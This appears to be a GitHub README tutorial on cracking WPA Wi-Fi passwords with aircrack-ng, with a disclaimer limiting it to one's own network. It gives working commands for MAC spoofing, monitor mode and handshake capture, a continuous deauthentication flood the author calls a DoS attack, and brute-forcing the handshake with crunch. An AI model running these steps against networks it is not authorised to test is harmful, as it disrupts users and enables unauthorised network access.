








# Hacking Wireless LAN using aircrack-ng: The Easiest and Most Affordable Way to Hack Almost Any Wireless Network

**Disclaimer:** All information provided in this file is presented for educational purposes only. Testing this instruction can only be done on your own wireless network, or with the written permission of the network owner. I am not responsible for your actions.

## Installation

1. The first step is to install the utility we will use by running the command:

```bash
apt install aircrack-ng
```

## Preparation
2. The second step, using the command:  
```bash
ifconfig
```
you need to check which network interfaces are available, because quite often a person who is trying to hack a wireless network (for example, through a virtual machine) does not have a wireless interface available there and an incident will arise further.
    


3. The third step is to create a specific script `monitorandkill.sh` (so as not to write it constantly):
```bash
airmon-ng check kill
ifconfig wlan0 down 
macchanger -r wlan0
iwconfig wlan0 mode monitor 
ifconfig wlan0 up
airmon-ng check wlan0
iwconfig wlan0 | grep Mode 
```
and execute it with one command:
```bash
./monitorandkill.sh
```
When installing aircrack-ng in the first step, we also got access to the following command: `airmon-ng`
In this script, we use this command to look through all active processes that could interfere with a successful hacking of a wireless network, and immediately kill them. After that, we turn off our wireless interface, change our permanent MAC address to a new random one (if `macchanger` is not installed, you need to install it), change the mode of our network adapter to monitoring mode. After this, we turn on our wireless interface, double-check whether there are any processes left that could prevent hacking, and as a final step we check whether the monitoring mode for the network adapter has been accurately set.

Result of script execution:



## Scanning

4. The next step is to use another one of the aircrack-ng tools - `airodump-ng` to scan available access points within the range of the network adapter to determine the bssid of our router (because we probably know the essid, and accordingly we are looking for the bssid), which we will be needed later during hacking.
 ```bash
airodump-ng wlan0
```
This helps identify the BSSID of the target router.
    


5. After we have found out the BSSID of our network, we need to write another command, only this time aimed exclusively at our network, which will give us the opportunity to catch the authentication packet and write it to the file we need.
```bash
airodump-ng -c 9 -w /home/praga/file --bssid C2:25:2F:80:**:*A wlan0
```
`Note:` Replace `-c 9` with the appropriate channel number identified during the global scan.

Result of the command:
    


## Deauthentication

6. After we have started intercepting the authentication packet, we first need to deauthenticate the user. We can do this as follows (we use another command from the aircrack-ng package - `aireplay-ng`):
```bash
aireplay-ng -0 0 -a C2:25:2F:80:**:*A wlan0
```
Thus, we will launch a small DOS attack on the network. Our command will allow us to deauthenticate all users of this network until we stop it. After the required time, you should interrupt it and wait until the authorized user tries to connect to his network again, and at that moment we will catch this long-awaited authentication packet.
    


## Capturing Handshake and Cracking

7.Now that the authorized user has reconnected after our DOS attack on the network, we received this authentication packet:
    


which we will need to crack.
We will hack it using the `crunch` utility, namely we will brute force it.
```bash
crunch 9 9 -t @^@,%,^@^ | aircrack-ng -w - /home/praga/file-01.cap -e MERCUSYS_041A
```
`crunch` will begin to sort through and throw out a huge number of characters according to the given parameters, while `aircrack` will select these characters and try to decrypt the previously intercepted handshake.
It will look like this:



I won’t go through a fully valid password, because it will take me a lot of time, but I can give one example when there is a light password and how quickly it can be brute-forced:



When brute force is used, the speed of password guessing will depend on only 3 factors:
1) Known parts of the password
2) Device power
3) Password complexity


